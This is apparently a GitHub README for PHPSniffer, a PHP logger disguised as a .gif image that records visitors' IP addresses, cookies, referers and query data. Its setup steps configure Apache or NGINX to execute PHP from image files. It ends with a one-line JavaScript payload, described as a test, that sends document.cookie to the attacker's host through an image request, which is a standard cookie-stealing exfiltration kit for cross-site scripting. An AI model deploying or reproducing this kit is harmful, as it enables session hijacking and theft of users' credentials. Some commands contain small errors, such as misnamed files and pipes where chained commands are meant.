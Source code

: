 PHPSniffer
==========

Simple PHP script to receive GET data and log it to txt file.

#### Install ####

Clone from GIT:
`git clone https://github.com/codebyzen/PHPSniffer`

Change rights & rename:
`mv img.php ing.gif | chmod +x ./img.gif`

To setup your Apache server use .htaccess
```AddType application/x-httpd-php .gif```
or if PHP as CGI
```AddHandler application/x-httpd-php .gif```

If you use NGINX use below location config:
```
    location ~ /path/.*\.(gif|jpg|png)$ {
        fastcgi_index index.php;
        include /Applications/MAMP/conf/nginx/fastcgi_params; # just for example maybe like fastcgi_params
        fastcgi_pass unix:/Applications/MAMP/Library/logs/fastcgi/nginxFastCGI_php7.2.8.sock; # just for example maybe like /tmp/fastcgi.sock
        fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
    }
```

Create log file and set propper rights:
```touch log.txt | chmod 777 log.txt```

##### Simple Log File #####
```Access time, IP, Server-Cookie, Cookie, Referer, User-Agent, Host, Query-String```


#### Usage ####
You can direct access to script file `http://site.tld/path/img.gif` after that you see little smile face. If all ok log.txt file will appended with your ip, ua, time and other.
To pass the useful data use GET parametres: `http://site.tld/path/img.gif?c=simple%20data%you%20need`. Data from `c` wil be added to log.
If you don't need smile face image, set `i=1` param to output 1x1 transparent pixel.

Simple JS script for tests:
```i=new/**/Image();i.src='http://host/path/img/gif?c='+escape(document.cookie)+'&i=1';```
